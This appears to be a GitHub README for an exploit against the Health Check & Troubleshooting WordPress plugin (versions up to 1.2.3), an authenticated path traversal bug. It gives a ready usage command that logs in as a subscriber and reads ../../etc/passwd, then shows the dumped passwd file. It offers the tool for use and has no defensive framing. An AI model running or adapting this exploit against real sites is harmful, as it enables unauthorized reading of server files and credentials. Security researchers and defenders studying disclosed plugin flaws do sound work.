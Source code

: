 # health-check
Health Check &amp; Troubleshooting &lt;= 1.2.3 - Subscriber+ Path Traversal


# Description
The Health Check & Troubleshooting WordPress plugin was affected by an Authenticated Path Traversal security vulnerability.

# Note

Due to the response from the plugin it adds so much html around things i've put a html stripper inside the code of the exploit so it returns the files with out the html.

Note some files you might be looking at might need have code stripped.


How to use
---

```
$ python3 exploit.py --url http://wordpress.lan --user user --password useruser1 --file  ./../../../../../../../etc/passwd
Logged in successfully.



 root:x:0:0:root:/root:/bin/bash
 </body></html>
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  _apt:x:100:65534::/nonexistent:/usr/sbin/nologin


```

